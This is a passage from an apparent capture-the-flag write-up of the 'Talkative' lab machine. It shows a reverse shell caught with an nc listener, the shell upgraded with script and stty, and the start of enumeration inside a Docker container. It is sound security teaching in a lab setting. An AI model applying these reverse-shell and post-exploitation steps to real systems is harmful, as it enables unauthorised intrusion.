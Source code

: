 ![image-20220822150554268](https://0xdfimages.gitlab.io/img/image-20220822150554268.png)

On clearing the cache and then refreshing the main page, a reverse shell
connects to a listening `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.155 33484
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ 
    

I’ll upgrade the shell using the [script
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg 
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ 
    

## Shell as saul on Talkative

### Enumeration

#### Container

This host is also a Docker container. There’s a `.dockerenv` file at the
system root. The hostname is ba67799048d7, and the IP is 172.17.0.10:

    
    
    www-data@ba67799048d7:/$ ls -la /.dockerenv 
    -rwxr-xr-x 1 root root 0 Aug 22 15:21 /.dockerenv
    www-data@ba67799048d7:/$ hostname
    ba67799048d7
    www-data@ba67799048d7:/$ cat /proc/net/fib_trie
    ...[snip]...
         +-- 172.17.0.0/16 2 0 2
            +-- 172.17.0.0/28 2 0 2
               |-- 172.17.0.0
                  /32 link BROADCAST
                  /16 link UNICAST
               |-- 172.17.0.10
                  /32 host LOCAL
    ...[snip]...
    
